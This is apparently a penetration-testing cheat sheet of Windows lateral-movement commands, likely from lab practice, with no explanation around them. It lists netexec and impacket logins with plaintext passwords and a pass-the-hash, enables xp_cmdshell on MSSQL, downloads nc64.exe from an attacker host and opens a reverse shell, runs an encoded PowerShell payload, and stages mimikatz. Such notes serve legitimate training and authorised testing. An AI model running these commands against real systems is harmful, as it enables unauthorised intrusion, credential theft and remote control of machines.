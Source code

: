 ```jsx
netexec wmi 172.16.238.83 -u 'wario' -p 'Mushroom!'
```

```jsx
netexec sql 10.10.137.148 -u sql_svc -p Dolphin1

impacket-mssqlclient sql_svc@10.10.137.148 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

EXECUTE xp_cmdshell 'powershell iwr -uri http://10.10.137.147:8888/nc64.exe -OutFile C:/Users/Public/nc64.exe';
EXECUTE xp_cmdshell 'C:/Users/Public/nc64.exe 10.10.137.147 443 -e cmd';
```

```jsx
netexec ssh 10.10.137.148 -u sql_svc -p Dolphin1
```

```jsx
netexec smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
```

## Impacket - Establish connections with credentials

```jsx
impacket-psexec administrator:']12FIYiy&Frtsz'@192.168.157.122
```

```jsx
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:1f006e5b3ba84ddc6690f4bb2aa559c8 Administrator@192.168.157.122
```

```jsx
lput mimikatz.exe
lget mimikatz.log
```

```jsx
impacket-wmiexec jim:'Castello1!'@192.168.209.189
```

```jsx
evil-winrm -i 172.16.238.83 -u 'wario' -p 'Mushroom!'
```

```jsx
evil-winrm -i 172.16.134.7 -u 'relia.com\Administrator' -p 'vau!XCKjNQBv2$'
```

```jsx
upload <file>
download <file>
```
